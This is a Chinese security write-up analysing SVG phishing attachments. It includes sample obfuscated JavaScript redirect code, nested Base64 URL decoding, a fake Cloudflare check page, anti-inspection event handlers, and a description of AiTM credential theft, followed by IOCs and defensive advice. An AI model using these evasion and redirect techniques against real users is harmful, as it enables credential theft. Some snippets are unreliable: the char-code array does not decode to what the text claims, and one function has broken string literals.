


# 混淆重定向SVG钓鱼邮件技术分析-先知社区

> **来源**: https://xz.aliyun.com/news/17777  
> **文章ID**: 17777

---

近日，作者收集到一批恶意钓鱼邮件，大多数由html，pdf，svg的文件格式上传发送至企业邮箱中，通常情况下大多数恶意邮件都会被outlook，gmail等放入垃圾箱，但这些附件却顺利进入到了企业员工的收件箱中，经过作者研究是进行了混淆技术的复用与重定向，绕过了邮箱检测机制，下面针对svg格式的附件技术细节进行阐述。

## 1. 嵌入于SVG文件中的恶意JavaScript代码分析

SVG文件本质是XML格式，可以内嵌脚本来执行代码 。在钓鱼SVG中，攻击者插入了经过混淆的恶意JavaScript代码，利用`<![CDATA[ ... ]]>`块包装脚本，使其不影响SVG的XML解析。代码中包含**字符串数组**和字符编码转换，通过`String.fromCharCode()`将数组中的数值转为可执行的字符串片段，然后借助`Function`构造函数动态执行生成的代码。模拟此类代码行为：

```
<script type="application/ecmascript"><![CDATA[
  // 模拟的字符代码数组（实际攻击代码更长更混淆）
  var charCodes = [110, 100, 100, 100, 110, 110, 40, 100, 110, 90, 90, 110, 100, 110, 110, 46, 104, 114, 101, 102, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 109, 97, 108, 105, 99, 105, 111, 117, 115, 46, 100, 111, 109, 39];
  // 将每个字符代码转换为字符并拼接
  var scriptStr = charCodes.map(c => String.fromCharCode(c)).join('');
  // 动态执行拼接出的代码
  Function(scriptStr)();
]]></script>

```

上面代码中的`charCodes`数组代表字符的Unicode码点，转为字符串后得到`window.location.href='https://malicious.com'`这样的恶意指令。实际攻击中，**攻击者会将恶意URL和脚本逻辑以字符数组或Base64字符串隐藏**，通过多层解码还原真正指令，再使用`Function(...)()`或`eval()`执行 。常见做法是将恶意URL用Base64编码多段存放，再嵌套调用`atob()`解码组合 ：

```
// 伪代码：嵌套Base64解码组合URL
var a = atob( atob('YUhSMGNITTZMeTkwYUdseg==') + 
             atob('WTI5dWRHRnBibk50WVd4cA==') + 
             atob('WTJsdmRYTmpiMjUwWlc1MA==') + 
             atob('TWpRMk9ERXdMbU52YlE9PQ==') );
// 此时a的值为"https://thiscontainsmaliciouscontent246810.com" ([HTML smuggling: How malicious actors use JavaScript and HTML to fly under the radar](https://www.xorlab.com/en/blog/html-smuggling-how-malicious-actors-use-javascript-and-html-to-fly-under-the-radar#:~:text=a%20%3D%20atob,TWpRMk9ERXdMbU52YlE9PQ%3D%3D%27%29))
```

通过这种方式，脚本在表面上难以看出具体的恶意行为，只有在运行时才拼合出真正的指令和URL。**一旦代码组装完成，便会触发浏览器跳转**：通常使用`window.location.href`或`location.assign()`将浏览器导向攻击者准备的钓鱼链接。值得注意的是，攻击者往往会调用`setTimeout`设置**短暂延迟**再跳转，以确保SVG中的引诱内容先显示片刻（例如一个对勾图标表示“加载成功”）。图像渲染后一瞬间，嵌入的JS代码将用户重定向到攻击者的钓鱼站点。整个脚本逻辑高度混淆且动态执行，旨在绕过安全扫描，实现无需用户点击也会自动跳转的效果。

示例代码可以参考作者github：<https://github.com/Gach0ng/sharepoint-redirect-js-encryption-svg>

我是做了sharepoint分享链接的混淆重定向svg，分为点击跳转和延时跳转两个脚本。

## 2. 跳转URL结构与行为路径分析

恶意SVG脚本拼接出的目标链接指向了攻击者控制的钓鱼域名，涉及多重跳转路径。**首次跳转URL**通常类似：

```
https://documents.example520.com/KHDSABC?e=<用户邮箱地址>
```

可以看出，该URL包含了可疑的域名“example520.com”以及一个随机路径“`KHDSABC`”，并附加查询参数`e`携带用户的邮件地址。这种设计有多重目的：

* **伪装可信度**：二级域名`documents.`和路径名让URL看起来像微软Office文件共享链接，但实际域名`example520.com`并非微软官方域 。不熟悉细节的用户可能不会仔细辨认，将其误认为合法的Office邀请链接。
* **追踪与个性化**：通过在URL中嵌入目标的电子邮箱，钓鱼站点能够识别是哪位用户点击了链接，并可在后续页面中**预填充用户邮箱**，增强欺骗性，一些钓鱼页面会自动填入从URL查询参数获取的用户邮箱，从而让登录表单显得更可信。
* **多阶段跳转**：访问该初始URL后，浏览器会进一步重定向。例如，本例中`documents.example520.com/KHDSABC`很可能立即返回一个跳转指令，导向**下一阶段验证页面**：

```
https://example520.com/uztaaaCeRb?office365cloud=true&email=<用户邮箱/base64等>
```

第二阶段URL切换到主域名`example520.com`，路径`uztaaaCeRb`看似随机字符串，并带有参数`office365cloud=true`等。**这一层通常展示伪装的验证页面**，例如模拟Cloudflare检查或人机验证（见下节），从而在最终呈现钓鱼内容前加一道“门”。

* **最终落地点**：经过验证页面后，用户最终被引导到`https://example520.com/`（可能带或不带特定参数），此时网站会显示出伪装的微软登录界面或相应的钓鱼表单页面。整个过程中，用户经历了从附件->恶意SVG->中间跳转->验证->最终登录的多步链路。**这种多步跳转策略可以躲避安全产品的直接检测**：邮件网关可能只看到附件而无法解析其内部跳转 ，自动沙盒若不模拟用户交互可能停留在中间验证步骤而未发现最终钓鱼页面。

需要强调的是，域名“example520.com”并非微软的任何合法域。正规Office 365登录域一般为`login.microsoftonline.com`或`office.com`等，而本例中的域名仅是仿造包含“office”字样。安全研究已观察到**不法分子注册相似域名进行钓鱼**，并通过多跳转和动态参数增加混淆。在作者收集到的攻击样本中，首次跳转使用的`documents.example520.com`子域名更是进一步诱导受害者，让人误以为是在处理文档链接。但实际上，该子域和主域都由攻击者控制，属于同一钓鱼基础架构，应被视作**威胁指标**加以拦截。

## 3. 伪装技术解析（Cloudflare验证与人机校验）

在用户被重定向到攻击者站点后，钓鱼攻击通常不会直接暴露假登录页，而是**先呈现一系列伪装的安全检查画面**。这一步的目的是两方面：一是增强社会工程的迷惑性，让用户以为当前站点受信任的安全机制保护；二是阻滞安全扫描器的脚本，避免其轻易抵达真正的钓鱼表单。

伪造cf代码示例：

```
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Just a Moment...</title>
  <style>
    body { text-align: center; font-family: sans-serif; margin-top: 50px; }
  </style>
</head>
<body>
  <p>Checking your browser, please wait...</p>
  <script>
    // 模拟延时验证过程
    setTimeout(function() {
      // 验证后重定向到最终钓鱼页面
      window.location.href = "https://example520.com/";
    }, 3000);
  </script>
</body>
</html>

```

**（1）仿冒Cloudflare浏览器检查**：许多钓鱼站点会模仿Cloudflare的“5秒盾”页面，即显示诸如“正在检查您的浏览器是否安全连接...”的消息和加载动画 。Cloudflare是知名的网络安全/CDN服务，合法网站有时会出现类似提示，用户对此并不陌生。攻击者利用这一点，在其钓鱼域名上展示一个**假冒的Cloudflare验证页面**。通常会有Cloudflare的徽标或样式，提示用户等待几秒。不少情况下，攻击者直接使用Cloudflare的服务，将钓鱼站点开启“Under Attack Mode”或强制人机挑战，使访问者（尤其是安全爬虫）先通过Cloudflare的验证 。几乎所有此类钓鱼站都加了Cloudflare CAPTCHA，以阻止自动访问，因为这其实很好实现，只要把域名在cf上捆绑注册一个账号即可申请cf官方的CAPTCHA。这意味着安全扫描器可能被挡在验证页，只有真人浏览器（通过Cloudflare的检查）才能继续，从而**把安全产品和安全服务对立起来**。

**（2）假人机验证页面**：通过浏览器检查后，用户接着可能遇到一个伪造的“我是人类”验证步骤。这通常表现为要求用户点击一个按钮或勾选一个复选框以证明自己不是机器人，或者如“请确认身份以证明你不是机器人”的提示。事实上，攻击者可以在此阶段融入钓鱼主题。例如，在一些语音邮件钓鱼案例中，页面会弹出“请确认身份以继续听取消息”的对话框，要求用户输入邮箱密码。还有的则简单模拟Google reCAPTCHA或Cloudflare Turnstile，放一个“点此验证”的按钮。**无论形式如何，这一步的作用都是引导用户进行一次交互**，使其相信接下来的页面是安全的，同时也再次筛掉不执行点击的自动分析工具。

攻击者构造的验证页往往通过URL参数或站点逻辑进行控制。如本例中出现的`office365cloud=true`参数，可能就是站点用来判定展示Office 365相关验证流程的开关。当该参数为真时，站点首先显示Cloudflare检查画面，接着是Office 365主题的人机验证/登录步骤；若参数缺失或为false，也许站点不会呈现真正的钓鱼表单。这种机制可以防止安全研究人员直接访问主域就看到钓鱼页面，**必须带上特定参数或经过前序跳转才能触发**。因此，`office365cloud=true`本身也是一个欺诈性标志，暗示当前流程与Office 365有关但实则为陷阱。

**（3）欺骗性元素**：除了页面流程外，攻击者还精心加入一些欺骗元素。例如，使用受信任站点的favicon、加载真实的安全证书（很多钓鱼站也会使用HTTPS以获取浏览器绿锁）、甚至从微软官方站点加载部分静态资源。作者调查发现，这些钓鱼页会预先获取Office 365登录对话框的内容或动画效果，给用户以熟悉的视觉反馈 。有的攻击者还将企业的Logo嵌入假登录页以提升可信度。所有这些伪装技术都服务于同一目的：**降低用户警惕性**，让其相信接下来的登录请求是正常的安全流程的一部分。

综上，用户在点击邮件中的SVG附件并经历跳转后，可能并未意识到已经进入了攻击者控制的域名，因为一路所见都是看似合理的验证步骤（Cloudflare检查、人机验证等）。只有那些留意浏览器地址栏或异常者，才能察觉域名的不对劲。对于大多数用户来说，这层层伪装足以将他们带到最后的钓鱼陷阱而不自知。

## 4. 混淆与反调试技术剖析

本次攻击的JavaScript代码和页面结构使用了多种混淆和防分析技巧，增加逆向工程难度，同时尽可能阻碍用户察觉和干预：



([Scalable Vector Graphics files pose a novel phishing threat – Sophos News](https://news.sophos.com/en-us/2025/02/05/svg-phishing/))*图：恶意SVG文件内容片段。*

*攻击者在*`<svg>`*标签内设置了大量事件属性来禁用用户操作，并使用脚本提取目标邮箱构造跳转链接。*

混淆代码示例：

```
<script>
  // 简单混淆函数：替换变量名，并添加伪代码片段
  function obfuscate(code) {
    // 示例：将“important”替换为无意义的变量名
    const vars = { 'important': 'a1b2' };
    Object.keys(vars).forEach(key => {
      code = code.replace(new RegExp(key, 'g'), vars[key]);
    });
    // 添加无实际意义的循环作为迷惑元素
    code += "
var dummy = '';
for (var i = 0; i < 100; i++) { dummy += i; }";
    return code;
  }
  
  // 原始代码示例
  let originalCode = "if (important) { console.log('Executing'); }";
  let obfuscatedCode = obfuscate(originalCode);
  console.log("混淆后的代码：
", obfuscatedCode);
</script>

```

* **字符串/数组混淆**：正如前文提到，攻击代码不会明文出现URL或关键函数名，而是以字符编码数组、拼接字符串、或嵌套Base64等方式隐藏 。例如，将`window.location="https://attacker.com/phish"`拆解成字符代码，再运行时还原。这种**代码混淆**手段非常普遍，以逃避基于特征字符串的检测 。
* **多层解码**：除了基本的`String.fromCharCode`外，常见还会组合`atob()`（Base64解码）、`unescape()/decodeURI()`（URL解码）等函数多层嵌套使用。作者分析得到**嵌套解码函数是HTML/SVG钓鱼常用的顶级技巧** 。通过多层编码，静态分析工具必须模拟执行才能得到真实payload，提高了分析难度。
* **CDATA块与注释**：攻击者将脚本包裹在`<![CDATA[ ... ]]>`中，这不仅是SVG中嵌入脚本的规范写法，也可以避免某些安全扫描器误解析脚本内容。甚至，有些样本在SVG中插入大量无关的注释或数据来掩盖真实意图。作者在收集来的攻击附件样本中发现，SVG嵌入了大段维基百科文章内容作为注释填充，以增加文件大小和噪音 。
* **变量名随机化**：恶意脚本通常充斥着无意义的变量/函数名（如`_0x562ff4`、`raccoonclientemail`等）以迷惑分析者。上述样本代码中就出现了`raccoonclientemail`、`_17d1a004a`等变量，这些看似随机的名称没有上下文意义，使得理解代码逻辑变得困难。变量名可能每次生成都不同，**防止基于字符串的检测规则**。
* **伪代码段与执行顺序控制**：攻击者有时插入一些不会实际执行的“伪代码”来误导分析，例如定义未被用到的函数，或构造一个看似完整却无用的代码段。更常见的是利用`setTimeout`、`requestAnimationFrame`等延迟执行函数，将关键操作延后执行 。这既可以确保先显示SVG内的引诱性元素，又可能绕过某些只扫描页面初始状态的防护。有些SVG在用户未点击任何内容的情况下，隔几秒便自动加载出钓鱼页面 ——这正是通过延迟脚本实现的效果。
* **禁止用户操作（反调试）**：值得注意的是，攻击者不但防范安全工具，也防范用户自行检查。正如上图所示，SVG的根元素被赋予了一系列事件处理属性：`oncontextmenu="return false"` 禁用右键菜单，`ondblclick="return false"` 禁用双击，`oncopy`/`onpaste`/`onkeydown`等均设置为`return false`，甚至`onmouseup`调用`event.preventDefault()`。这些设置会**全面禁止用户在页面上的复制、粘贴、检查元素、F12审查等常见操作**，大大增加了用户手动检查发现异常的难度。此外，一些钓鱼页面可能检测开发者工具的开启，一旦察觉调试行为就暂停运行或跳转走，从而阻碍安全人员调试分析。

上述反制手段的组合，使得攻击的分析与检测更加复杂。代码混淆和多层编码隐蔽了真正的恶意逻辑，而反用户交互措施则尽量确保受害者一路按照攻击者设计的流程进行，而无法轻易中途退出或获取线索。总而言之，**这些技术共同营造出一个对攻击者有利的环境：安全产品难以拦截，用户难以察觉或干预**。

## 5. 最终钓鱼页面行为分析

一旦用户通过前面的重重验证抵达最终的落地页面，攻击者便会呈现精心伪装的钓鱼界面以套取敏感信息。就本次案例而言，最终页面与Microsoft Office 365登录流程高度相关，具体可能有两种展现方式：

* **仿冒Office 365登录页**：这是最典型的手法，攻击者托管一个几乎一模一样的Office 365登录表单。页面设计、Logo、背景、文字都尽量与微软官方登录页吻合，甚至根据受害组织定制品牌（如嵌入公司名称或标识）以增加可信度 。页面中往往已有用户的电子邮件地址填写好（从先前跳转URL的`e`参数获取），因此用户只需输入密码即可。这给用户一种熟悉感，认为自己确实需要重新登录Office账户来查看文件/语音邮件等 。当用户输入密码并提交时，表单并不会真的登录微软，而是将凭据发送给攻击者控制的服务器进行收集。
* **伪装成业务流程中的验证**：有时钓鱼页未直接标明微软登录，而是结合诱饵情景要求用户提供账户凭证。比如针对语音邮件诱饵的攻击，最终页可能显示一个播放消息的界面，但弹出提示“**Confirm Identity to Prove You are not a Robot（确认身份以证明你不是机器人）**”，要求用户输入Office 365账户密码才能继续。下图展示了一例类似页面：



([Scalable Vector Graphics files pose a novel phishing threat – Sophos News](https://news.sophos.com/en-us/2025/02/05/svg-phishing/))*图：伪装成语音信箱门户的钓鱼页面示例。页面要求用户输入邮箱（已预填）和密码“验证身份”，实际为窃取凭据的手段。* 尽管形式上不直接说“登录 Office 365”，但要求输入的邮箱密码实际上就是用户的Microsoft账号密码。攻击者利用“验证身份/解密文档”等借口，使用户觉得输入密码是合理的步骤。

**无论哪种展现方式，钓鱼页面都会诱导用户提交他们的登录凭据。成功骗取的邮箱账号和密码会立刻被攻击者站点捕获存储。而更先进的攻击属于“中间人”类型：攻击者不止记录密码，还会实时与微软服务器交互**。这种攻击属于AITM攻击，攻击者在用户提交凭据时，后台立即转交给真正的Microsoft认证服务验证。如果密码不正确，假页面会反馈“密码错误，请重试”，引导用户重新输入 。这一过程会反复直到拿到正确密码为止，确保攻击者获得有效凭据。而如果启用了双重认证，某些AITM工具还能提示用户输入二次验证码，然后在后台利用该验证码完成真正的登录，截获会话Cookie或令牌。作者观察到，不少此类钓鱼站在用户输入凭据后，会将数据立即发送到多个远程服务器甚至通过Telegram机器人转发，以确保获取的信息妥善到手。

成功偷到账号密码后，攻击者可能有多种后续利用手段，包括但不限于：

* **直接侵入邮箱及Office 365账户**：获得有效凭据后，攻击者可登录受害者的Office 365账户，窃取邮箱中的敏感信息、发送内部钓鱼扩大攻击范围，甚至访问连接的SharePoint/OneDrive文件等。如果拿到了会话令牌（Cookie），甚至可以绕过密码和MFA直接冒充用户访问账号。这就是所谓的**会话Cookie劫持**或令牌窃取，即问题中提到的“Cookie篡改”。攻击者通过中间人代理获取用户登录响应中的认证Cookie，从而在自己浏览器中复用受害者会话，无需再次验证 。
* **利用凭据进入其他服务**：许多用户往往使用相同密码于不同账户，攻击者可能尝试这些凭据登录用户的其他相关账户（如VPN、公司门户等），造成更大危害。
* **售卖或分享盗取数据**：有时钓鱼只是为收集大量凭据，攻击者可能将所获邮箱地址和密码在黑市出售，或供日后针对性攻击使用。一些钓鱼工具还能通过API将数据直接传送到攻击者的IM频道，比如作者收集到的钓鱼脚本可以将凭证发送到攻击者的Telegram机器人上 。

总之，最终钓鱼页面的**用户诱导性极强**。一般用户看到熟悉的登录界面或验证提示，往往因为前面经历了“安全检查”等步骤而放松警惕，认为输入密码是合理的要求。一旦配合，攻击者便获得了进入其账户的大门钥匙。如果不是及时发现异常并更改密码，用户账号可能在不知不觉中被彻底接管。而即便改密，若攻击者提前取得了会话令牌，仍可能继续访问账户（直到令牌失效或被吊销）。因此，此类钓鱼的危害不仅在于窃取静态密码，还在于可能**实时地劫持会话绕过额外防护**。

## 6. 威胁指标与安全建议

**威胁指标（IOC）**：通过此次事件，我们提取出以下值得关注的指标和特征，供安全防御检测使用：

* **恶意域名**：`example520.com` 及其子域（例如`documents.example520.com`）。该域名与微软官方无关，却被用于假冒Office邀请流程，应将其加入阻断/监控名单。任何访问该域名的流量在企业环境下都值得警惕。同理，此攻击者可能更换域名，但往往采用包含“office”“invite”等字眼的组合，需提高警觉。
* **可疑URL路径/参数**：路径如`/KHDSABC`、`/uztaaaCebR`在正常网站中少见且无语义，可作为弱特征。此外，URL中出现`office365cloud=true`参数也是不寻常的，可作为潜在钓鱼流量的标记。当检测到外部URL包含此类参数且域名非信任来源时，应重点检查。某些钓鱼站点URL带有`/Prefetch/Prefetch.aspx`等异常路径，这些都可纳入IOC列表 。
* **附件文件特征**：带有内嵌JavaScript的SVG文件本身就是强IOC。正常业务邮件极少发送含脚本的SVG图像。如果邮件附件为SVG且文件内容包含`<script>`标签、`<![CDATA[`字样、`String.fromCharCode`或`atob`等可疑字符串 ，基本可以判定为恶意，Sublime的检测规则已将“未经请求的SVG中含JS”作为危险信号之一。
* **行为特征**：用户在打开某个邮件附件后，浏览器自动连向不熟悉的域名并经历“Cloudflare检查”“验证”等流程，也是一种可疑行为。这种模式在正当的文件分享场景中并不常见（通常直接跳转微软或谷歌的登录，不会有额外的人机验证除非网络异常）。因此，安全监控可结合流量行为做关联分析：例如，某终端先打开一个本地SVG文件，紧接着产生多个HTTP跳转最终停在疑似登录页，这种链条应及时触发警报。

**安全建议**：针对上述攻击链，建议从邮件网关、终端、防火墙/浏览器多个层面加强防护：

1. **邮件安全防护**：在邮件网关或安全邮件服务上拦截此类附件和链接是第一道防线。可以**禁阻SVG附件**或将其视同可执行内容扫描 。大多数企业并无业务需要通过邮件发送SVG，可考虑在邮件服务器直接阻止`.svg`文件传递。如果必须允许SVG，启用沙盒分析：让安全沙盒打开附件并观察是否存在自动网络连接和跳转行为，以检测钓鱼。更新邮件过滤规则，增加对文件内嵌脚本、`data:` URI、`fromCharCode`等模式的检测。一些安全厂商已经发布针对SVG钓鱼的规则和IOC，可及时订阅应用。
2. **浏览器和终端设置**：在终端侧，可以**降低此类文件自动执行的风险**。例如，配置SVG文件默认用图像查看器打开而非浏览器（浏览器会执行其脚本）。如果通过浏览器打开，确保浏览器启用了**安全浏览/SmartScreen**等防护，及时拦截已知恶意域。作者建议，普通用户应对意外收到的SVG邮件附件提高警惕，最好不打开而直接删除除非确认无误。企业可以在终端上部署EDR/杀毒软件，检测浏览器进程对本地文件协议的访问以及可疑的Child Process或网络行为。一些浏览器提供了禁止文件协议脚本的策略，可在管理模板中设置仅允许受信内容运行。
3. **网络及DNS层阻断**：将`example520.com`等已知恶意域名加入企业防火墙、Secure Web Gateway或DNS黑名单，阻止内部主机访问。启用DNS监控，发现类似可疑域名的解析请求及时响应调查。由于攻击者可能不断变换域名，建议使用威胁情报源动态更新拦截列表，关注包含常用品牌词却不属于官方域的域名。此外，可部署HTTP(S)流量分析，对**含有明显编码片段的URL**（如长串数字字母混合）或**不符合正常应用模式的跳转**发出警报。
4. **用户意识与培训**：再严格的技术防护也无法百分百拦截新变种，因此用户教育仍是关键一环。定期开展**反钓鱼培训**，告知员工这种“图片附件要求登录”的新型技巧。强调：**任何邮件附件要求输入账号密码的情况都极可疑**，应在独立路径验证真伪（例如直接登录Office官网检查分享文档通知，而非通过附件链路）。培养hover检查链接、辨认域名的方法，在看到`example520.com`这类陌生域名时及时质疑。鼓励员工对可疑邮件使用企业提供的**举报机制**，让安全团队介入分析。
5. **及时更新安全设备签名和策略**：确保企业防病毒、IDS/IPS、邮件网关规则库包含针对SVG钓鱼的最新签名（如检查SVG文件中的脚本模式，或检测文档中出现像`<script xlink:href`之类企图加载外部脚本的用法）。部署能够行为检测的安全产品，用AI或沙盒手段识别此类HTML/SVG欺骗攻击。
6. **账号保护**：考虑启用风险登录提示和多因素认证（MFA）。虽然AITM攻击能绕过MFA部分防御，但增加验证步骤总能过滤掉一部分低端攻击。并且，一旦发现账号异常登录（例如在非常用设备/地区），应有及时通知用户和管理员的机制，第一时间冻结或二次验证。同时，做好日志审计，如果某员工邮箱遭钓鱼泄密，应检查其邮箱规则、有无被设置转发等后门，以及关联账户的登录记录，防止进一步内侵。

综上，本次SVG钓鱼攻击展示了高度隐蔽和多层次的技巧，从邮件附件一直到最终伪装登录，无缝衔接。安全团队需要综合运用IOC检测、策略阻断和用户教育等手段，**在攻击链的各个环节布防**，才能有效遏制此类新型钓鱼手法造成的危害 。通过持续更新情报、优化规则以及提高用户警觉性，我们可以大大降低这类攻击的成功率，保护企业帐户和信息安全。

**​**
